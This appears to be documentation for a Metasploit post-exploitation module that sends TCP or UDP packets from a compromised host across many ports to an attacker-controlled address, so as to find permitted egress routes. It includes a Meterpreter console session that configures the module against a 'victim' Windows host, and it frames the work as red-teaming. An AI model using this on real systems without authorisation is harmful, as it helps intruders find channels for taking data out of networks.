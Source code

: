 This is a Meterpreter post exploitation module that will generate TCP and UDP packets on a range of ports and send them to a provided IP address. The primary purpose of this is for 'egress busting' and provides a rapid method of generating legitimate TCP or UDP traffic on each port. This is useful for red-teaming type exercises in which you have meterpreter running on a host but wish to determine additional ports over which egress traffic is permitted.

It can generate the packets in two different ways; it can call the Windows sockets API (using railgun for Windows clients) or it can create the packets using Rex.

NATIVE mode uses Rex sockets to generate traffic.
WINAPI mode uses Winsock APIs to generate traffic.

As it currently stands, the user will need to set up a listener/tcpdump/wireshark to determine the ports that are open. My [egresscheck-framework](https://github.com/stufus/egresscheck-framework ) code can help with that, but any listener would be fine.

# Example - Windows Meterpreter

Scenario is:

* The victim host is 192.0.2.104
* The attacker is 192.0.2.1
* The attacker wishes to generate TCP packets to 192.0.2.1 (with meterpreter on 192.0.2.104) on ports 22,23,53,80,88,443 and 445 to see if any of the packets reach 192.0.2.1. Note that the attacker has control of 192.0.2.1.
* The compromised machine is a Windows 8.1 machine

```
msf> sessions -l

Active sessions
===============

  Id  Type                   Information             Connection
  --  ----                   -----------             ----------
  2   meterpreter x86/win32  TESTER\Stuart @ TESTER  192.0.2.1:9877 -> 192.0.2.104:43595 (192.0.2.104)

msf> set METHOD NATIVE
METHOD => NATIVE
msf> set PORTS 22,23,53,80,88,443,445
PORTS => 22,23,53,80,88,443,445
msf> set PROTOCOL TCP
PROTOCOL => TCP
msf> set SESSION 2
SESSION => 2
msf> set TARGET 192.0.2.1
TARGET => 192.0.2.1
msf> set THREADS 3
THREADS => 3
msf> show options

Module options (post/multi/manage/multiport_egress_traffic):

   Name      Current Setting         Required  Description
   ----      ---------------         --------  -----------
   METHOD    NATIVE                  yes       The mechanism by which the packets are generated. Can be NATIVE or WINAPI (Windows only). (Accepted: NATIVE, WINAPI)
   PORTS     22,23,53,80,88,443,445  yes       Ports to test.
   PROTOCOL  TCP                     yes       Protocol to use. (Accepted: TCP, UDP)
   SESSION   2                       yes       The session to run this module on.
   TARGET    192.0.2.1               yes       Destination IP address.
   THREADS   3                       yes       Number of simultaneous threads/connections to try.

msf> run
```